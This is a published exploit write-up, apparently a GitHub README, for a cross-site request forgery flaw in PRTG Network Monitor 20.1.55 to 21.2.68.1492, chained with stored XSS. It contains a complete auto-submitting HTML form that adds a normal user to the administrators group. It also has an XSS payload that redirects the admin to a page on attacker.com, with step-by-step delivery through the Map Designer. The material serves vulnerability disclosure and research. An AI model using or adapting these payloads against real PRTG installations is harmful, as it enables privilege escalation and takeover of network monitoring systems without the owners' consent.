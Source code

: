 # PRTG Network Monitoor v20.1.55 to 21.2.68.1492 - CSRF
Cross Site Request Forgery (CSRF) on PRTG Network Monitor version 20.1.55 to 21.2.68.1492

Exploit Title: Cross Site Request Forgery (CSRF)  
Date: 10/06/2021  
Exploit Author: Likhith CV  
Vendor Homepage: https://www.paessler.com/  
Software Link: https://www.paessler.com/prtg  
Test on Version: 20.1.55.1775+ and 21.2.68.1492+    
Affected Versions: not tested on other versions  


## Observation
It was observed that anti csrf tokens are not implemented in PRTG Network Monitor v20.1.55 to 21.2.68.1492

Severity: High

## Steps To reproduce:

To exploit this vulnerability normal user can simply create a HTML form that would add a normal user account to administrators group request and share the link with the victim. On clicking the link , the user account elevation request will be triggered in background and it shall create a user account from his valid session. Since this version is vulnerable to Stored XSS attacker chain XSS to CSRF

Any action can be performed on behalf of logged in user but for demonstration user account privilege escalation is shown as example


1. Create a CSRF payload as following
```javascript
<html>
  <body>  
 <form action="https://[PRTG_domain]/editsettings" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="name&#95;" value="PRTG&#32;Administrators" />
      <input type="hidden" name="defaulthome&#95;" value="&#47;welcome&#46;htm" />
      <input type="hidden" name="isadgroup" value="0" />
      <input type="hidden" name="adusertype&#95;" value="0" />
      <input type="hidden" name="aduserack&#95;" value="0" />
      <input type="hidden" name="users&#95;" value="1" />
      <input type="hidden" name="users&#95;" value="1" />
      <input type="hidden" name="users&#95;&#95;check" value="[user_id]&#124;[username]&#124;" />			<!--user_id and username-->
      <input type="hidden" name="users&#95;&#95;check" value="100&#124;PRTG&#32;System&#32;Administrator&#124;" />
      <input type="hidden" name="id" value="200" />
      <input type="hidden" name="targeturl" value="&#47;systemsetup&#46;htm&#63;tabid&#61;6" />
      <input type="submit" value="Submit request" />
    </form>
    <svg/onload='document.forms[0].submit()'/> 
  </body>
</html>



```
2. deliver the payload to admin of the PRTG Portal
3. once Admin opens your payload, normal user's privilege will be elevated


Since this version is vulnerable to stored XSS, XSS can be leverged to CSRF and used to trick admin in creating new user
### before elevating Privileges
![0before](https://user-images.githubusercontent.com/36541248/122039108-5f9a0180-cde7-11eb-8366-4b539992926b.png)

### Get user id from source code
![user_id](https://user-images.githubusercontent.com/36541248/122039169-6e80b400-cde7-11eb-961d-ada94074f825.png)


### CSRF Payload
![image](https://user-images.githubusercontent.com/36541248/122034254-6114fb00-cde2-11eb-83ae-a0b3d0ef812e.png)

### Hosting admin_csrf.html on attacker server
![host_csrf_payload](https://user-images.githubusercontent.com/36541248/122034421-91f53000-cde2-11eb-8fd5-1444897e31f9.png)

### Add a Map
![2add_map1](https://user-images.githubusercontent.com/36541248/122038569-cc60cc00-cde6-11eb-9ebe-b439d73d3411.png)

### Enter any name and select allow publilc access (so that our XSS payload is publically accessible)
![3add_map2](https://user-images.githubusercontent.com/36541248/122038633-dc78ab80-cde6-11eb-850f-08ce1a50b800.png)


### Go to Map Designer --> Drag and Drop a Icon --> Enter XSS payload in After HTML

```javascript
<img src=x onerror=document.location.href="http://attacker.com/admin_csrf.html"//">

```

![4add_map3](https://user-images.githubusercontent.com/36541248/122038644-e0a4c900-cde6-11eb-8421-ee3a87497f71.png)

### Click on Save

### New Map with XSS payload is created
![map_created](https://user-images.githubusercontent.com/36541248/122039511-cf0ff100-cde7-11eb-9ea3-531412c40944.png)

### Once Admin Logs in, he is displayed with malicious map created by normal user
![all_maps_disaplayed_on_admin](https://user-images.githubusercontent.com/36541248/122038939-32e5ea00-cde7-11eb-955a-3733fe44f5b0.png)


### Once the Admin Opens map CSRF Payload is triggered and new user account "user_test2" is created
![5after](https://user-images.githubusercontent.com/36541248/122038971-3aa58e80-cde7-11eb-908a-78bdfa40b638.png)


### Tested on  20.1.55.1775+ and 21.2.68.1492+   

![uasi_version](https://user-images.githubusercontent.com/36541248/122043872-e6051200-cdec-11eb-812e-70b27e31319d.png)


![image](https://user-images.githubusercontent.com/36541248/122044072-22d10900-cded-11eb-90cd-35d72a25bd6e.png)

